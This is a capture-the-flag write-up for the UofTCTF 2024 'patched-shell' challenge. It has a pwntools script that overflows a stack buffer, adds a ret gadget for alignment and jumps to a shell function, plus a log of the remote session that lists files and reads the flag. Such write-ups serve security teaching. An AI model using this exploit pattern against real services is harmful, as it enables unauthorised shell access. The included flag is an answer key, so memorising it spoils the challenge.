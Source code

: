 # patched-shell [199 Solves]

## Description

> Okay, okay. So you were smart enough to do basic overflow huh...
>
> Now try this challenge!
> I patched the shell function so it calls system instead of execve...
> so now your exploit shouldn't work! bwahahahahaha
>
> Note: due to the copycat nature of this challenge, it suffers from the same bug that was in basic-overflow. see the cryptic message there for more information.
>
> Author: drec
>
> `nc 34.134.173.142 5000`
>
> Attachments: patched-shell

## Short Solution

ret2win with extra ret instruction

## Solution

### Basic file checks

```console
$ file patched-shell
patched-shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=01a5881d2bccff210f4617e1ed4586e58b213ca1, for GNU/Linux 4.4.0, not stripped

$ checksec patched-shell
[*] '/root/ctf/UofTCTF_2024/pwn/patched-shell/patched-shell'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### solver.py

SIGSEGV on movaps so pad extra ret instruction.

Ref: [Beginners' guide](https://ropemporium.com/guide.html#Common%20pitfalls)

> The MOVAPS issue
> If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system(). ... (snip) ... movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction.

```python
from pwn import *

context.log_level = "DEBUG"
context.terminal = ["tmux", "split-window", "-h"]

elf = ELF("./patched-shell", checksec=False)
rop = ROP(elf)
ret = rop.ret.address


def conn() -> pwnlib.tubes:
    if args.REMOTE:
        io = remote("34.134.173.142", 5000)

    elif args.GDB:
        gdbscript = """
        c
        """
        pty = process.PTY
        io = gdb.debug([elf.path], gdbscript=gdbscript, stdin=pty, stdout=pty)
    else:
        pty = process.PTY
        io = elf.process(stdin=pty, stdout=pty)

    return io


def main():
    payload = b"A" * cyclic_find("saaa")
    payload += p64(ret) + p64(elf.sym["shell"])

    io = conn()
    io.sendline(payload)

    io.interactive("")


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py REMOTE
[*] Loaded 5 cached gadgets for './patched-shell'
[+] Opening connection to 34.134.173.142 on port 5000: Done
[DEBUG] Sent 0x59 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  1a 10 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000050  36 11 40 00  00 00 00 00  0a                        │6·@·│····│·│
    00000059
[*] Switching to interactive mode
ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x9 bytes:
    b'flag\n'
    b'run\n'
flag
run
cat flag
[DEBUG] Sent 0x9 bytes:
    b'cat flag\n'
[DEBUG] Received 0x24 bytes:
    b'uoftctf{patched_the_wrong_function}\n'
uoftctf{patched_the_wrong_function}
```

### Flag

uoftctf{patched_the_wrong_function}
